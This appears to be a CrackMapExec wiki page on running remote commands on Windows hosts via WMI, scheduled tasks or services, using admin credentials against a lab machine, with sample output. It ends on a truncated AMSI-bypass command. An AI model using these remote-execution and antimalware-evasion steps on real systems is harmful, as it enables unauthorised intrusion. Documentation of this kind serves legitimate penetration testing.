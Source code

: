 # Remote Command Execution

## Command Execution

Executing commands on a windows system requires Administrator credentials, CME automatically tells you if the credential set you're using has admin access to a host by appending '(Pwn3d!)' to the output when authentication is successful.

See the [Credential](https://github.com/byt3bl33d3r/CrackMapExec/wiki/Using-Credentials) section for details on how to use credentials.

## Execution Methods

CME has three different command execution methods:

* `wmiexec` executes commands via WMI
* `atexec` executes commands by scheduling a task with windows task scheduler
* `smbexec` executes commands by creating and running a service

By default CME will fail over to a different execution method if one fails. It attempts to execute commands in the following order:

1. `wmiexec`
2. `atexec`
3. `smbexec`

If you want to force CME to use only one execution method you can specify which one using the `--exec-method` flag.

## Executing commands

In the following example, we try to execute `whoami` on the target using the `-x` flag:

```
#~ crackmapexec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami
06-05-2016 14:34:35 CME          192.168.10.11:445 WIN7BOX         [*] Windows 6.1 Build 7601 (name:WIN7BOX) (domain:LAB)
06-05-2016 14:34:35 CME          192.168.10.11:445 WIN7BOX         [+] LAB\Administrator:P@ssw0rd (Pwn3d!)
06-05-2016 14:34:39 CME          192.168.10.11:445 WIN7BOX         [+] Executed command 
06-05-2016 14:34:39 CME          192.168.10.11:445 WIN7BOX         lab\administrator
06-05-2016 14:34:39 [*] KTHXBYE!
```

You can also directly execute PowerShell commands using the `-X` flag:

```
#~ crackmapexec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable'
06-05-2016 14:36:06 CME          192.168.10.11:445 WIN7BOX         [*] Windows 6.1 Build 7601 (name:WIN7BOX) (domain:LAB)
06-05-2016 14:36:06 CME          192.168.10.11:445 WIN7BOX         [+] LAB\Administrator:P@ssw0rd (Pwn3d!)
06-05-2016 14:36:10 CME          192.168.10.11:445 WIN7BOX         [+] Executed command 
06-05-2016 14:36:10 CME          192.168.10.11:445 WIN7BOX         Name                           Value
06-05-2016 14:36:10 CME          192.168.10.11:445 WIN7BOX         ----                           -----
06-05-2016 14:36:10 CME          192.168.10.11:445 WIN7BOX         CLRVersion                     2.0.50727.5420
06-05-2016 14:36:10 CME          192.168.10.11:445 WIN7BOX         BuildVersion                   6.1.7601.17514
06-05-2016 14:36:10 CME          192.168.10.11:445 WIN7BOX         PSVersion                      2.0
06-05-2016 14:36:10 CME          192.168.10.11:445 WIN7BOX         WSManStackVersion              2.0
06-05-2016 14:36:10 CME          192.168.10.11:445 WIN7BOX         PSCompatibleVersions           {1.0, 2.0}
06-05-2016 14:36:10 CME          192.168.10.11:445 WIN7BOX         SerializationVersion           1.1.0.1
06-05-2016 14:36:10 CME          192.168.10.11:445 WIN7BOX         PSRemotingProtocolVersion      2.1
06-05-2016 14:36:10 [*] KTHXBYE!
```

### Bypass AMSI

```
#~ crackmapexec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable'  --amsi-bypa
```
